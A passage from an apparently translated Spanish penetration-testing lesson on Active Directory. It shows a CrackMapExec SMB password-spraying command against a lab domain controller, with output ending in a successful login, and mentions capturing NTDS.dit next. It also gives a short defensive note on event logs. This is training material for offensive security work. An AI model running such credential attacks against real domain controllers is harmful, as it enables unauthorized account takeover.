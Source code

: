 Es ideal limitar tanto como sea posible la necesidad de adivinar al llevar a cabo ataques de contraseñas.

### Lanzando el ataque con CrackMapExec

Una vez que tengamos nuestras listas preparadas o descubramos la convención de nombres y algunos nombres de empleados, podemos lanzar nuestro ataque contra el controlador de dominio objetivo utilizando una herramienta como **CrackMapExec**. Podemos usarla junto con el protocolo SMB para enviar solicitudes de inicio de sesión al controlador de dominio objetivo. Aquí está el comando para hacerlo:

```bash
Atacando Active Directory & NTDS.dit
sherlock28@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (nombre:DC-PAC) (dominio:dac.local) (firma:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```

En este ejemplo, CrackMapExec está utilizando SMB para intentar iniciar sesión como usuario (-u) `bwilliamson` utilizando una lista de contraseñas (-p) que contiene una lista de contraseñas comúnmente utilizadas (`/usr/share/wordlists/fasttrack.txt`). Si los administradores configuraron una política de bloqueo de cuenta, este ataque podría bloquear la cuenta que estamos atacando. En el momento de esta escritura (enero de 2022), una política de bloqueo de cuenta no se aplica de forma predeterminada con las políticas de grupo predeterminadas que se aplican a un dominio de Windows, lo que significa que es posible que encontremos entornos vulnerables a este ataque que estamos practicando.

### Registros de eventos del ataque

Puede ser útil saber qué podría haberse dejado atrás después de un ataque. Conocer esto puede hacer que nuestras recomendaciones de remediación sean más impactantes y valiosas para el cliente con el que estamos trabajando. En cualquier sistema operativo Windows, un administrador puede navegar al Visor de eventos y ver los eventos de seguridad para ver las acciones exactas que se registraron. Esto puede informar decisiones para implementar controles de seguridad más estrictos y ayudar en cualquier posible investigación que pueda estar involucrada después de una violación.

Una vez que hayamos descubierto algunas credenciales, podríamos proceder a intentar obtener acceso remoto al controlador de dominio objetivo y capturar el archivo `NTDS.dit`.
